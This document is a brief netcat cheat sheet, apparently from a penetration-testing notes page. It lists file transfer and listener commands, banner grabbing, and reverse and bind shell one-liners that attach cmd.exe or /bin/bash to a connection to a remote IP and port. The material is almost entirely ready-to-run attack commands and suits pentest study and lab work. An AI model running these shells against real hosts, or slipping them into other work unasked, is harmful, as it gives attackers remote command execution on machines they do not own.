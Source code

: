 ## Establish the variable

```bash
export ip=192.168.1.100
```

### Send files with `nc`

```bash
nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe
```

### Recieve file with `nc`

```bash
nc -nlvp 4444 > incoming.exe
```

### Create a reverse shell with Ncat using cmd.exe on Windows

```cmd
nc.exe -nlvp 4444 -e cmd.exe
```

***or***

```cmd
nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe
```

### Create a reverse shell with Ncat using bash on Linux

```bash
nc -nv $ip 4444 -e /bin/bash
```

### Create a reverse shell with Ncat using shell on OpenBSD (Unix)

```sh
/bin/nc.traditional -e /bin/bash 1.2.3.4 4444
```

### Netcat for Banner Grabbing:

```bash
echo "" | nc -nv -w1 $ip 4444
```
